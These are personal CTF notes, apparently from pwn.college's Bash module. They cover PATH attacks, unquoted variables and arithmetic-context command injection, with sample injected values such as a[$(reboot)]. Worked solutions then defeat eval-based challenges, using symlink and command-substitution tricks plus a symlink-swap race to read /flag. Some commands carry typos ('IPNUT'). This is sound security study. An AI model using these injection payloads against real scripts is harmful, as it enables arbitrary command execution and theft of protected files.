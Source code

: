 # Environment Attacks
Always specify absolute paths when executing binaries or other scripts. If your script runs other scripts or binaries that do not use absolute paths internally, you should explicitly set the value of the PATH environment variable in your scripts to prevent problems.
(unset PATH not always works)
# Unquoted Variable Expansion
Always use quotes when accessing arguments
# Shell's Filename Expansion (also known as globbing)
idk warning?
# Enimgma of The Evironment
+ Check for user-controllable variables being passed to declare statements
+ Flag any script that allows arbitrary variable names in declare statements
+ Identify unquoted variables that are executed as commands (like $PROGRAM)
+ Flag variable assignments that could be influenced by user input and later executed
+ Look for cases where user input directly influences what command gets executed
# Tale of The Test
If the contents of $foo are not sanitised and are out of your control (if for instance they're coming from an external source), then all but [ "$foo" -gt 7 ] constitute an arbitrary command injection vulnerability as the contents of $foo are interpreted as an arithmetic expression (and for instance, the a[$(reboot)] arithmetic expression would run the reboot command when evaluated). The [ builtin requires the operands be decimal integers, so it's not affected. But it's critical that $foo be quoted, or you'd still get a command injection vulnerability (for instance with values such as -v a[$(reboot)] -o 8).

If the input to any arithmetic context (including ((, let, array indices), or [[ … ]] test expressions involving numeric comparisons can't be guaranteed then you must always validate your input before evaluating the expression.

# Rhythm of Restriction
### chal
``` sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

read INPUT < <(head -n1 | tr -d "[A-Za-z0-9/]")
eval "$INPUT"
```
### sol
``` sh
ln -s /flag IPNUT
```
``` sh
/challenge/run
$(< ${_})
```
```
${_} is a special variable in Bash that usually contains the last argument of the previous command which in our case is INPUT.
$(< ${_}) is a command substitution that reads the contents of the file whose path is stored in ${_}. This is a shorthand in Bash for $(cat ${_}).
```
### vuln
directly executing clients ipnut

# Odyssey of the Octal
### chal
``` sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

read INPUT < <(head -n1 | tr -d "[A-Za-z0-9./]")
eval "$INPUT"
```
### sol
``` sh
ln -s /flag IPNUT
```
``` sh
$(< ${_})
```
# Riddle of the Radix
### chal
``` sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

WORKDIR=$(mktemp -d)
[ -n "$WORKDIR" ] || exit 1
cd $WORKDIR

doit() {
        echo -n ""
        read -r INPUT < <(head -n1 | tr -d "[A-Za-z./]")
        eval "$INPUT"
}

doit
```
### sol
creat symlink to /challenge/run
``` sh
ln -s /challenge/run smth
```
run the challenge with symlink using full path
``` sh
/home/hacker/smth
```
before passing input to challenge, in another terminal remove the symlink and create some program with same name as a symlink that reads /flag
``` sh
#!/usr/bin/bash

cat /flag
```
pass $0 to challenge as an input
